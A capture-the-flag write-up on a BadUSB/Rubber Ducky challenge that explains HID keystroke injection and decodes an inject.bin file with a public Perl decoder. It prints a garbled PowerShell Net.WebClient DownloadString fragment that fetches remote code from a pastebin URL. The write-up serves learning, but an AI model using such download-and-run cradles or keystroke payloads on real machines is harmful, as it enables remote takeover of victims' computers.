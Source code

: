 # HID

## Task

One of my colleagues found a USB stick in the parking lot in front of our
company. Fortunately he handed it over directly to us . The drive contains an
SD card with just one file. Maybe it's no normal USB flash drive?

File: inject.bin

Tags: binary-analysis

## Solution

A USB device can be used as a HID (Human-Interface-Device). It looks like a
USB stick, but is actually a keyboard. This is called HID attack or BadUSB.

What you think you get: a filesystem.  
What you get: a keyboard that launches malicious commands to take over your
computer.

The tag is very misleading. This isn't binary analysis, we actually just need
to find the tool that was used to encode this keyboard inputs.

A very popular device is the Rubber Ducky.

`The USB Rubber Ducky injects keystrokes at superhuman speeds`

While researching I came across this very interesting post:
https://security.stackexchange.com/a/109595

It is definitely worth a read. There is also a link to a repository:
https://github.com/brandonlw/Psychson#running-demo-1-hid-payload

There is explained how to use the `Duckencoder` to encode the `Rubber Ducky
format`. There is also a link to a decoder:
https://github.com/midnitesnake/usb-rubber-ducky (forwarded from the google
url).

We can use the `Decode/ducky-decode.pl` script to decode the `inject.bin`.

```bash  
$ perl ducky-decode.pl -f inject.bin > decoded.txt  
```

In the decoded file we find a lot of errors, like `windowstzle`. The keyboard
layout is obviously wrong. We could fix that by changing the replacements in
the script, but let's look for the flag first.

After scrolling down a lot and filtering out noise we find this:

`N e t . W e b C l i e n t ( . D o w n l o a d S t r i n g * | h t t p s > & & p a s t e b i n . c o m & r a w & Y R D 8 j s v d | ( < @`

Now we just need to replace `Y` with `Z`, `>` with `:`, `&` with `/` and open
the correct url. Done.

Original writeup (https://github.com/klassiker/ctf-
writeups/blob/master/2020/syskron/hid.md).